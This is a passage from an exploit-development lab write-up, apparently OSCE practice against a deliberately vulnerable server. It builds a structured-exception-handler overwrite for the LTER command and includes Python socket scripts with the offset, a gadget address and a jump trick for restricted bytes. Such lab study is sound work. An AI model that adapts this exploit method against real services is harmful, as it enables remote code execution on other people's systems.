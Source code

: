 ```python
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

![](/assets/images/CTP/LTERsehoverwrite.JPG)

After using Mona to determine the offsets, we see that we overwrite SEH at 3514 bytes. So our new payload looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * 3514
buffer += 'B' * 4
buffer += 'C' * 4
buffer += 'D' * (4000 - 3514 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And we can verify that we have overwritten SEH appropriately:

![](/assets/images/CTP/LTERsehoffset.JPG)

And our stack looks great!

![](/assets/images/CTP/LTERgoodstack.JPG)

Next we need to place a `POP POP RET` into our `C` buffer space. Let's let Mona do the dirty work with a `!mona seh -cp ascii` command. 

![](/assets/images/CTP/LTERseh.JPG)

Let's use one of the `essfunc.dll` gadgets and grab the one at address `6250172B`.

Next we need to place jump code into the 'next SEH record' space that will land us in our `D` value buffer. Let's use our trust 'Net Jump' technique since `EB` is restricted. We'll accomplish this by juxtaposing the opcodes \x74 (JZ) and \x75 (JNZ) and jump lengths of `0x06` and `0x04`. Since one of these is always true, we will end up in our `D` buffer. 
